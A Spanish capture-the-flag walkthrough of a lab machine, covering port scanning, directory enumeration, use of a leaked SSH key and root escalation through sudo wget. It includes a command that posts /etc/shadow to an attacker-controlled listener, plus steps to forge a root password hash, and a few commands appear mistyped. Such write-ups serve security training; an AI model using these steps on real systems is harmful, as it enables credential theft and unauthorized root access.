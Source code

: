 ### Tags: `shadow` `openssl`

# Escaneo (**22, 80**)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/65c36438-9c2a-4222-895e-2dfaa77410ad)

# Port 80

Mirando el código fuente de la web (**Ctrl + u**) encontramos un mensajito con un posible usuario `Jessie`

```
<!-- Jessie don't forget to udate the webiste -->
```

## Gobuster

Con Gobuster encontramos este directorio `sitemap`

```ruby
gobuster dir -u http://10.10.246.151 -t 150 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

![image](https://github.com/user-attachments/assets/5804e49d-ebc1-4473-835a-a51e4fc3d998)


## Dirb

Ahora tirándole un dirb encontramos este directorio `.ssh` con una clave **id_rsa**

```ruby
dir http://10.10.10.10/sitemap
```

![image](https://github.com/user-attachments/assets/bc2dd4fa-c631-4eb7-82d5-0d93195b4b68)

Tenemos la id_rsa

![image](https://github.com/user-attachments/assets/dbed8726-0533-480c-bdec-349dec0f8811)

# SSH

Nos conectamos por ssh con el usuario `jessie` que encontramos antes

![image](https://github.com/user-attachments/assets/5fe9d23e-2316-405a-93ed-20a99e148b50)

# Escalada *ROOT*

Poniendo `sudo -l` vemos que podemos ejecutar como *root* **wget**, por ende nos vamos a ``GTFObins`` y ponemos los siguientes comandos:

```ruby
nc -nlvp 443  #en la maquina atacante
sudo /usr/bin/wget --post-file=/etc/shadow <IP>:443   #maquina victima
```

Una ves puesto esos comando en la maquina actante vamos a recibir el `etc/shadow` y lo que hacemos es copiarlo y ponerlo en un archivito y jugar con `openssl` para cambiarle la contraseña a root y después *compartirlo* con la máquina victima con la **password cambiada**

```ruby
nano shadow
openssl passwd -6 -salt 'salt' 'password'
nano shadow   #el hash creado se lo ponemos a root
```

![image](https://github.com/user-attachments/assets/4991aa84-93a2-4ab4-ad28-d4b566cca1b9)

Ahora compartimos le archivo `shadow`

```ruby
python3 http.server -m 8080
```

Y acá ya seriamos `ROOT`

![image](https://github.com/user-attachments/assets/e05e5408-7f1b-4ecb-a30b-705892253b5d)


















